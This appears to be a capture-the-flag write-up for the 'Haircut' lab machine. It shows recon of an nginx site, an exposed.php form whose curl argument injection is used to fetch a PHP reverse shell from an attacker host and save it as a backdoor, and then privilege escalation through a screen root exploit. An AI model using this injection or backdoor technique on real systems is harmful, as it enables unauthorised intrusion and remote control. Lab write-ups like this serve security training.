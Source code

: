 # Haircut

IP: `10.10.10.24`

## Recon

- Probably running `linux`
- port 80: hardresser website
  - runs on nginx `nginx/1.10.0 (Ubuntu)`
    - has paths: `hair.html`, `index.html`, and `test.html`
    - interseting path of `exposed.php`
    - the form is running `curl` and we can insert commands in outlined [here](https://security.stackexchange.com/questions/198148/leveraging-curl-to-spawn-a-shell)

## Port 80

We can write files to the system by passing in:

```sh
10.10.14.21/php-reverse-shell.php -o /var/www/html/uploads/backdoor.php
```

and navigating there, we get a reverse shell.

## Priv esc

```sh
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

Using linpeas.sh, we find that there's a screen [exploit](https://raw.githubusercontent.com/XiphosResearch/exploits/master/screen2root/screenroot.sh).

This exploit doesn't work by running the script by itself since it gets some compile issues. So for the parts where the libraries are created, we do that locally then upload it to the box and then run individual commands on the machine.

Alternatively, to compile on the box, just add the location of cc1 path: 

```sh
export PATH=$PATH:/usr/lib/gcc/x86_64-linux-gnu/5/
```